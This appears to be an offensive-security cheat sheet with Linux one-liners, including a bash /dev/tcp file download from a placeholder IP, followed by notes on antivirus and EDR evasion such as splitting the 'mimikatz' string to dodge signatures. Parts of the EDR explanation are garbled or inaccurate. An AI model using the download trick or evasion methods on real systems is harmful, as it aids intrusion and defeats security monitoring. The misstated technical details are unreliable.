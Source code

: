 Download files with just bash
```bash
bash -c 'cat < /dev/tcp/<ip>/filename' > filename.ext
```

Make public RSA key from a private
```bash
ssh-keygen -e -y -f id_rsa
```

Show listening ports
```bash
ss -tulpn
netstat -anp tcp
```

Remove color from script output
```bash
sed -r "s/\x1B\[([0-9]{1,3}(;[0-9]{1,2})?)?[mGK]//g"
```
## Linux Priv Esc

## Linux Persistence

# Antivirus and EDR Evasion

Antivrus is software in place to detect malicous code loaded onto a computers storage or even ran in memory. 
EDR, or enhanced detection and response is not the same as AV but can have many of the same features. 
EDR is in place for security staff to be fed information on possible threats related to systems the software is loaded on.

Due to its nature EDR is much more difficult to bypass, as it much more closely watches software behavior on the system. 
EDR likes to hook into the Win32 API and watch the NTDLL.dll. 
The Win32 API is used to convert common user instructions to something that the NTDLL.dll can understand.
The reason for this is that the NTDLL.dll is responsible for providing instructions to the Windows Kernel. 

EDR maintains a tight grasp on the Win32 API DLL because it had permissions to do so.
Where as it watches NTDLL.dll calls very closely. Many EDR bypasses either call on their own version of NTDLL.dll or bring their own.
Which is very uncommon for software, making malware using those techniques stick out easier.

## Types of Detection
- Signatures
	- String of binary that will alert if AV Finds it
		- Custom Payloads
		- Obfuscation
			- Encoding/Encrypting
			- Scrambling (ex. 'mimikatz' -> 'miMi' + 'kaTZ')
